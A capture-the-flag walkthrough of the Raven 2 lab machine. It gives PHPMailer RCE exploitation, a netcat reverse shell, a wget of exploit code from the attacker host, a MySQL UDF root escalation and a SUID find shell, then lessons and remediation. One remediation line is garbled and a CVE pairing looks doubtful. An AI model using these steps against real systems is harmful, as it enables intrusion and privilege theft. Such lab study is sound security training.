




# Raven: 2 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.101 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | Read /root/flag4.txt (4 flags total) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/raven-2-vulnhub-walkthrough/) |

## Attack Summary

PHPMailer 5.2.6 RCE (CVE-2016-10033) against a WordPress contact form delivered a web shell; MySQL root credentials from `wp-config.php` led to a UDF-based privilege escalation (MySQL root to OS root via CVE-2016-6662 / EDB-1518).

## Methodology

1. Recon — nmap discovers SSH (22), HTTP (80), rpcbind (111)
2. Enumeration — dirb finds `/vendor/`; PHPMailer version 5.2.6 identified
3. Exploitation — PHPMailer RCE exploit plants a backdoor; netcat receives shell
4. Privilege Escalation — MySQL UDF exploit compiles shared library; SUID `find` drops root shell

## Step 1: Reconnaissance

```bash
nmap -sV -sC 192.168.1.101
```

Key open ports:

| Port | Service |
|---|---|
| 22/tcp | SSH (OpenSSH) |
| 80/tcp | HTTP (Apache — Raven Security WordPress) |
| 111/tcp | rpcbind |

Browse to port 80: a "Raven Security" company site running WordPress.



## Step 2: Enumeration — Vendor Directory and PHPMailer Version

Run dirb against the web root:

```bash
dirb http://192.168.1.101/
```

The `/vendor/` directory is found and directory listing is enabled. Notable files:

- `/vendor/PATH` — contains **flag1**
- `/vendor/VERSION` — contains `5.2.6`
- `/vendor/PHPMailerAutoload.php` — confirms the library is PHPMailer

```bash
curl http://192.168.1.101/vendor/PATH
curl http://192.168.1.101/vendor/VERSION
# 5.2.6
```

PHPMailer 5.2.6 is vulnerable to CVE-2016-10033 (Remote Code Execution via crafted `From` header).



## Step 3: Exploitation — PHPMailer 5.2.6 RCE (CVE-2016-10033)

Download the public exploit and adapt it:

```bash
# Example exploit script (PHPMailer-Exploit-CVE-2016-10033 or equivalent)
# Key fields to configure:
# - target: http://192.168.1.101/contact.php
# - backdoor name: shell.php
# - lhost: <LHOST>
# - upload path: /var/www/html/ (confirm from error output or default WordPress path)
```

The exploit sends a crafted email via the contact form, using a malformed `From` address to inject a PHP file-write payload. Adjust the relevant variables in the script:

```python
target = "http://192.168.1.101/contact.php"
backdoor = "shell.php"
lhost = "<LHOST>"
```

Start a netcat listener:

```bash
nc -lvnp 443
```

Run the exploit. When the backdoor is created, trigger it:

```bash
curl http://192.168.1.101/shell.php
```

The reverse shell connects. Upgrade to a PTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Enumerate flags:

```bash
# flag2 is in /var/www
ls /var/www/
cat /var/www/flag2.txt

# flag3 is an image in wp-content uploads (view in browser)
ls /var/www/html/wp-content/uploads/2018/11/
```

Grab MySQL credentials from wp-config:

```bash
cat /var/www/html/wp-config.php | grep -E "DB_USER|DB_PASSWORD"
# DB_USER: root
# DB_PASSWORD: R@v3nSecurity (example)
```


## Step 4: Privilege Escalation — MySQL UDF Root Shell (EDB-1518)

Connect to MySQL as root:

```bash
mysql -u root -p<password>
```

Download Exploit-DB 1518 (MySQL UDF exploit):

```bash
# On attacker:
searchsploit -m 1518
python3 -m http.server 8000

# On target:
cd /tmp
wget http://<LHOST>:8000/1518.c
gcc -g -c 1518.c
gcc -g -shared -Wl,-soname,1518.so.1 -o 1518.so 1518.o -lc
```

In MySQL, load the UDF:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/1518.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
create function do_system returns integer soname '1518.so';
select do_system('chmod u+s /usr/bin/find');
```

Exit MySQL and verify:

```bash
ls -la /usr/bin/find
# -rwsr-xr-x ... /usr/bin/find
```

Use `find` SUID to spawn a root shell:

```bash
find /tmp -exec "/bin/sh" \;
id
# uid=0(root) gid=0(root)
```



## Step 5: Root Flag

```bash
cat /root/flag4.txt
```



## All Flags Summary

| Flag | Location |
|---|---|
| flag1 | `/vendor/PATH` |
| flag2 | `/var/www/flag2.txt` |
| flag3 | `/var/www/html/wp-content/uploads/2018/11/<image>.png` |
| flag4 | `/root/flag4.txt` |

## Lessons Learned

1. Leaving the `/vendor/` directory of a PHP dependency publicly accessible exposes both the library version and its changelog, providing exact CVE identification to an attacker.
2. PHPMailer's `From` header injection in versions before 5.2.18 allows arbitrary command injection; every application using it as a mail form must be patched or isolated.
3. Running MySQL as root and granting root DB privileges to the WordPress user creates a direct path from web exploitation to OS-level root via UDF loading.
4. The SUID bit on common binaries like `find` trivially bypasses all user-level access controls.

## Remediation

| Vulnerability | Recommended Fix |
|---|---|
| PHPMailer 5.2.6 (CVE-2016-10033) | Upgrade PHPMailer to 5.2.18 or later; block directory listing on `/vendor/` |
| MySQL running as root | Run MySQL as a dedicated low-privilege system user (`mysql`); never use root DB credentials in application config |
| UDF loading enabled | Set `--skip-grant-tables` absence; restrict `secure_file_priv`; remove write access to plugin directory for the MySQL user |
| SUID find | Audit all SUID binaries regularly; do not set SUID on general-purpose utilities |
